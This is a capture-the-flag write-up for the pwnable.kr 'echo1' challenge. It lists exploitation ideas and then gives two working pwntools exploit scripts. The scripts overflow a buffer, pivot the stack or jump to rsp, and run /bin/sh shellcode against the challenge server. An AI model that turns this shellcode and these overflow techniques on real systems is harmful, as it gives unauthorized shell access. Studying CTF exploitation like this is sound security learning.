 	        set `esp` using `xchg, mov, add, sub` etc... 
	* leaking using using `puts`  
		**problem** 
		`fgets` writes a null after the last character. and puts stops to print at a null byte.
	* leak stack addresses using `printf`
		It's a normal `printf`. 
		but I could override the `bss`  to cause a format string bug... 
* execution on argv
	a bit far away, but possible

#### A complete new direction
change stdin to the flag file descriptor and it will echo it :).

**problems**
* I cannot write easily to stdin global var
* the flag file is not open, I need to open it and get the `fd`...

### solutions
this is the first time in my life that the exploit didn't worked locally and worked remotely...
for some weird reason on my local machine the heap wasn't executable. but on the remote machine it was...
```python
from pwn import *

context.log_level = 'info'
LEAVE_GADGET = 0x4007be
O_BSS = 0x602098
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
#                    pop rbp (0x602098)   mov rsp, rbp  pop rbp  ret to the value of O!   
payload = b'A' * 32 + p64(O_BSS - 8) + p64(LEAVE_GADGET) + 'B'*8
# p = process('./echo1')
# p = gdb.debug('./echo1', gdbscript='''
# b *0x0400871
# continue
# ''')
p = remote('pwnable.kr', 9010)
p.recvuntil(b'hey, what\'s your name? : ')
p.sendline(shellcode)
p.recvuntil(b'> ')
p.sendline(b'1')
p.recvline()
p.sendline(payload)
```

helped me change the shellcode: [link](https://security.stackexchange.com/questions/98099/limited-buffer-size-for-shellcode-on-64-bits-machine) 

### `hyprnir`
```python
from pwn import *

context.update(arch="amd64")

s = remote("pwnable.kr", 9010)
s.sendline(asm("jmp rsp") + ('A' * 22))
s.sendline('1')
s.sendline(('A' * 40) + p64(0x00000000006020A0) + asm(shellcraft.sh()))

s.interactive()
```
he put inside id an `jmp rsp` instruction using name. Then jump to execute that instruction which jumped to the shellcode. ID content is inside the `bss`! wow. which on older kernel's is `rwx`. 
